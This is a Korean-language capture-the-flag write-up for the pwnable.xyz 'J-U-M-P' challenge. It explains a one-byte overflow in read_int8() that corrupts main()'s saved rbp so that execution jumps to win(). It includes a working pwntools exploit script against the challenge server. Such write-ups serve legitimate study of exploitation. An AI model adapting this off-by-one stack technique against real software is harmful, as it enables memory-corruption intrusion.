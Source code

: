 # [pwnable.xyz] J-U-M-P

> Jump around

## The Bug

![image](https://github.com/user-attachments/assets/8846275b-daa8-4df5-9ff7-7d60a7a30fd4)

`read_int8()`에서 1바이트만큼 overflow가 발생한다. 이를 이용하여 `main()`의 `rbp`의 하위 1바이트를 임의의 값으로 조작할 수 있다.

![image](https://github.com/user-attachments/assets/0e356100-19d3-434a-bed6-d5101e954df4)

`read_int8()`의 return value는 `rbp+0x11`에 저장된다. `rbp`를 조작할 수 있기 때문에 결과적으로 `main()`의 스택 프레임에서 임의의 1바이트를 임의의 값으로 조작할 수 있다.

## Exploit

![image](https://github.com/user-attachments/assets/f4d08ea2-3616-4fb2-b741-78db1ad692d6)

원래 점프할 주소는 `main+22`인데, 마지막 1바이트를 `0x77`로 조작하면 `win()`으로 점프할 수 있다.

```python
from pwn import *

r = remote("svc.pwnable.xyz", 30012)

sla = r.sendlineafter
sa = r.sendafter

# get stack address
sla(b"> ", b"3")
rbp = int(r.recvline()[2:-1], 16) - 0xF8  # rbp of main()
log.info(f"rbp of main(): {hex(rbp)}")

# jump to win()
sa(b"> ", str(0x7B).ljust(0x20, "A").encode() + bytes([(rbp & 0xFF) + 0x9]))
sa(b"> ", str(1).ljust(0x20, "A").encode() + bytes([rbp & 0xFF]))

r.interactive()
```

![image](https://github.com/user-attachments/assets/85eb6177-47aa-4908-ab28-96614409568d)
